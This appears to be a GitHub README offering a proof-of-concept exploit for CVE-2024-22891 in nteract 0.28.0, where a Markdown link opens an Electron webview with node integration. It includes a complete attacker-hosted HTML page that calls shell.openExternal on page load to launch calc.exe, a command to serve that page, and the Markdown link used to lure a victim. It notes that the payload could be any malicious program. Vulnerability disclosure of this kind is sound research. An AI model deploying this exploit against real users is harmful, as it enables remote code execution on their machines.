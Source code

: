 # Nteract PoC
A Proof-Of-Concept for CVE-2024-22891 vulnerability. <br><br>
nteract 0.28.0 allows Electron webview via Markdown link, with resultant remote code execution.

In this repository there is an example vulnerable application and proof-of-concept (POC) exploit of it.
As a PoC there is a python file that automates the process. 
---------------------------------------

#### 1.Vunerability Overview:
 * Vulnerability Subject: Markdown link RCE
 * Vulnerability Type: Other: Open Redirect
 * Manifestation of the Issue: Electron Webview
 * Affected Component: markdown
 * Attack Type: Remote Code Execution
 * Attack Vectors: To exploit the vulnerability, someone must click on the link or access the shared project's link.
 * Reserved CVE Number: CVE-2024-22891 
---------------------------------------

#### 2. Vulnerability Cause:
* nteract 0.28.0 allows Electron webview via Markdown link, with resultant remote code execution (because nodeIntegration in webPreferences is true).

* Exploit explain
  * When generating links through MarkDown within the application, it creates a WebView via Electron, allowing external access to the link. Consequently, an attacker can achieve Remote Code Execution (RCE) by connecting to the link leading to the attacker's server.

Proof-of-concept (POC)
----------------------
* Step 1) Attacker make server to Source code for launching a calc.exe using openExternal() function.
```html
<html>
<head>
    <title>jruru Link</title>
</head>
<body>
    <a id="jruruLink">jruru Link</a>

    <script>
         // Script function definition
        function openExternal() {
            try {
                const { shell } = require('electron');
                shell.openExternal('file:C:/Windows/System32/calc.exe');
            } catch(e) {
                alert('JRURU - External link cannot be opened.');
                console.error(e);
            }
        }
        // Automatically execute openExternal function after the page is loaded
        document.addEventListener('DOMContentLoaded', function() {
            openExternal();
        });
    </script>
</body>
</html>
```
**Note:** ※ If you want to test it quickly, create a server on the attacker's PC with the following code.

```py
$ python -m http.server 80
```

* Step 2) Execute the nteract application on the victim's system and create a Markdown link, or share the attacker's ipynb file as an example code. Then, execute calc.exe.
```markdown
[Read This] (http://[attcker_adress]/shard_data.html)
```
![neteract](https://github.com/QnA4u/CVE/assets/131337101/f0dc7882-9376-4cd6-8432-241283d200b7)
![nteract2](https://github.com/QnA4u/CVE/assets/131337101/8b596f50-6c4e-40b5-a835-4dee96517314)

---------------------------------------

### 3. Additional Information
When executing a .ipynb file through file sharing, be cautious as the link may not be visible.This calc.exe could have been any malicious payload local or remote which could have given the attacker entire access to the victim’s system. 
